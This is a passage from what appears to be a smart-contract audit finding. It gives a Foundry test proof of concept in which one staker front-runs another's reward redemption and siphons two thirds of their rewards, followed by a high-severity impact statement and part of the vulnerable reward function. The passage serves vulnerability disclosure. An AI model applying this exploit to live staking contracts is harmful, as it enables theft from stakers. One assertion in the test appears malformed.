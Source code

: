 ```solidity
      vm.startPrank(_BOB);
        cqt.approve(address(os), type(uint256).max);
        os.stake(uint128(validatorId), amountToDelegate);
      vm.stopPrank();

    }

    // Reward the `Validators`.
    os.rewardValidators(0, ids, amounts);

    // Assert `_ALICE` and `_BOB` do not have tokens prior to redemption.
    assertEq(cqt.balanceOf(_ALICE), 0);
    assertEq(cqt.balanceOf(_BOB), 0);

    //// Redeem the rewards.
    vm.prank(_ALICE);
      os.redeemAllRewards(uint128(validatorId), address(_ALICE));

    assertEq(
      cqt.balanceOf(_ALICE),
      /// @notice When `_BOB` front runs `_ALICE`, they siphon
      /// two thirds of their rightful rewards.
      _SHOULD_FRONT_RUN
        ? 10_500_000_000_000_000_000_000
        : 31_500_000_000_000_000_000_000
    );

    /// @dev Assert the front run was profitable.
    if (_SHOULD_FRONT_RUN) {
      vm.prank(_BOB);
      os.redeemAllRewards(uint128(validatorId), address(_BOB));
      assertEq(cqt.balanceOf(_BOB, 21_000_000_000_000_000_000_000));
    }
    
  }

}

```

## Impact

I consider this issue to be high severity, as it results in loss of funds and can be broadly applied at the expense of little initial attack setup complexity.

This poses considerable risk to the fundamentals of the staking incentive mechanism.

## Code Snippet

```solidity
/*
 * Reward emission
 */
function rewardValidators(uint128 rewardId, uint128[] calldata ids, uint128[] calldata amounts) external onlyStakingManager whenNotPaused {
    require(ids.length == amounts.length, "Given ids and amounts arrays must be of the same length");
    uint128 newRewardPool = rewardPool;
    uint128 amount;
    uint128 validatorId;
    uint128 commissionPaid;

    for (uint256 j = 0; j < ids.length; j++) {
```